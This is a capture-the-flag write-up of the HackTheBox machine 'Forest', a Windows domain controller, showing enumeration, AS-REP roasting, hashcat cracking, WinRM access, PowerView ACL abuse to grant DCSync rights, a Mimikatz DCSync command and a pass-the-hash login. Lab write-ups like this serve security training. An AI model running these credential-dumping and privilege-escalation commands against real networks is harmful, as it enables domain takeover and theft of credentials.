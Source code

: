 ```yaml
---
layout: post
title: Forest
subtitle: HTB Writeup
thumbnail-img: https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/9c579e4d-8355-44c2-a4ff-95ac418997b6
share-img: https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/9c579e4d-8355-44c2-a4ff-95ac418997b6
tags: [HacktheBox, Windows, Pentesting]
---
```


![image12](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/9c579e4d-8355-44c2-a4ff-95ac418997b6)

Forest is an easy box on the HacktheBox platform, featuring RID brute forcing, Kerberos AS-REProasting attacks, remote access using the WinRM protocol, privilege escalation through Active Directory ACL abuse, and finally DCSync attacks.

### Enumeration
We start off with a nmap scan, using default scripts (-sC), and the enumerating versions flags (-sV).
```                                                                                                                                                                                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
Nmap scan report for 10.10.10.161
Host is up (0.061s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-12 14:36:32Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-12-12T06:36:42-08:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h46m39s, deviation: 4h37m09s, median: 6m37s
| smb2-time: 
|   date: 2023-12-12T14:36:39
|_  start_date: 2023-12-11T01:44:33
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.32 seconds
```

<br />

By this nmap scan, we can see that that this machine is an Active Directory Domain Controller. We can attempt to enumerate Domain user accounts if SMB anonymous bindings are enabled. So we run `enum4linux`.

<br />

![Untitled-1](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/10d0f494-f7f7-4a9b-9a27-074e5fea542a)

<br />

We aquire quite a few users from `enum4linux`, which we can use to leverage an attack.

<br />

### Exploitation
We can build a wordlist of Domain usernames to test if accounts are ASREP-Roastable. An ASREPRoasting attack leverages an accounts lack of Kerberos pre-authentication required, giving us the users hash.

We can build the text file users.txt like so:
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
zeus
```

<br />

and utilize it in an ASREPRoasting attack with `impacket-GetNPUsers`:

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e427e5ec-d449-4685-b33a-39834459c515)

<br />

We get a hash for the user svc-alfresco! The naming convention `svc` indicates a service account, meaning potentially more privilege being given to this account.

We can then attempt to crack the hash using hashcat, with the command: `hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule`:

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/89e74388-986f-48b6-9e95-cca47192b952)

<br />

Boom! We cracked the service account hash!
Great, now due to the WinRM service running on port 5985 that we enumerated earlier with nmap, we could potentially gain command execution if the service user is in the local group “Remote Management Users”.

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/78268aa2-ff39-47b7-ae5a-9321ccefaea0)

<br />

We get command execution!

<br />

### Privilege Escalation

As a Domain user, or a service account, I like to execute BloodHound on the target the enumerate potential domain vulnerabilities like Kerberoasting, or permission misconfiguration.


We find that the Domain Group `Account Operators` as `Generic All` access on `zeus`, and `svc-alfresco` is a part of the `Privileged Accounts` Domain Group, and the `Privileged Accounts` Domain Group is a member of the `Account Operators` Group. Because of this, our current user has full control over the user `zeus`. We can change their password, set them apart from the `Remote Management Users` to get RCE, then give them DCSync rights. 

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/6c3473f8-8d02-4e49-890f-42b44a6eb20d)


<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/401c1c39-a67a-4028-bbe2-cb3c0fbefdad)

```
net localgroup "Remote Management Users" htb.local\zeus /add
```
<br />

Utilize PowerView to give Zeus DCSync rights

```
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\zeus', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity zeus -Rights DCSync
```

<br />

Then we can use Evil-WinRM once more to gain access to the `zeus` account

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/740c03d3-a1a9-4833-9b29-96df83f1c638)

<br />

We can then use Mimikatz to preform the DCSync procedure as `zeus`.

```
Mimikatz.exe "lsadump::dcsync /domain:htb.local /user:Administrator" "exit"
```
<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/ac9d1a04-d612-4b2b-ac6a-8a69303abce2)

<br />

And we've gathered the NTLM hash of the Administrator, we can use this to Pass the Hash (PtH) to the Domain Administrator with evil-winrm.

```
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

